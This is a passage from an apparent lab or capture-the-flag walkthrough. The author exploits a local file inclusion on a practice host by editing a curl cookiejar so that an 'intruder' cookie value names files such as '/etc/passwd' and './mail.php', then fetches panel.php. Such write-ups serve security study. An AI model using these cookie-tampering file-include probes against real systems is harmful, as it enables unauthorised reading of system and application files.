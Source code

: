 ```bash
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
<HTML>
<CENTER>
<FONT COLOR = "RED">
<H1>INTRUDER ALERT!</H1>
</FONT>
</CENTER>
</HTML>
</HTML>
```

Notice the familiar **INTRUDER ALERT** message? :) Also remember how this file was called `/1` from the previous enumeration? Yep! File Include time! With us having a cookiejar file called `cookies` available for editing, it was easy to play around with this. The normal cookiejar had:

```bash
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder 1
```

To test the file include, the first knee jerk reaction was to replace the `1` with `/etc/passwd`. This yielded no results, and immediately I feared failure and assumptions disappointing me. However, just to make sure, I replaced it again with something in the same path as `/1`, like `mail.php`:

```bash
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ./mail.php

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
<HTML>
```